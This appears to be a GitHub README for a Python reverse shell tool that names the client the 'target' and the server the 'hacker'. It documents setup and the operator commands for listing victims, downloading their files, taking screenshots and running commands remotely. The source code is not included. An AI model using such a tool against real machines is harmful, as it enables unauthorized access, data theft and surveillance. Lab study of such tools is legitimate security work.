

# Reverse Shell

Reverse shell project implemented with python and socket.

*Targets*: client.py  
*Hacker*: server.py



## Python Requirements

- pillow
- termcolor
- tqdm

```shell
python -m pip install pillow termcolor tqdm
```

## Initialization

### 1- Run the server

Run `server.py` on your machine.

```shell
python server.py

[IP List] List of IP address

1 - ('127.0.0.1', 4040)

In which address would you like to run the server?
[IP Choice]: 
```

Chose the your IP address where server will running and press Enter.

```shell
[Server start] at [127.0.0.1:4040] 📡

╭─ [127.0.0.1:4040][0 Clients]
╰─ ❯
```

### 2- Run client

Run `client.py` and enter the IP address of the server.

```shell
python client.py

[Server IP]: 
```

```shell
[Server IP]: 127.0.0.1
```

## Commands available on the server

```shell
╭─ 127.0.0.1:4040[0 Clients]
╰─ ❯

# Show all clients connected with server.
clients show

# Select a client.
clients connect <client number>

# Disconnect a client.
clients disconnect <client number>

# Shut down the server.
exit
```

## Commands available after selecting a client.

### 1- Download file or folder on the server

```shell
download <filename or foldername> <destination:optional>
```

### 2- Take screenshot of server

```shell
capture <destination.png>
# Don't forget .png file extension.
```

### 3- Give information about server OS

```shell
os
```

### 4- List all clients connected with the server

```shell
clients
```

### 5- Run local command

```shell
local <command>
```

### Disconnect to the server

```shell
exit
```

## Notes

- Use double quote (not single quote) when passing an argument containing space.  

    ```shell
    download "file name.txt" file.txt
    ```
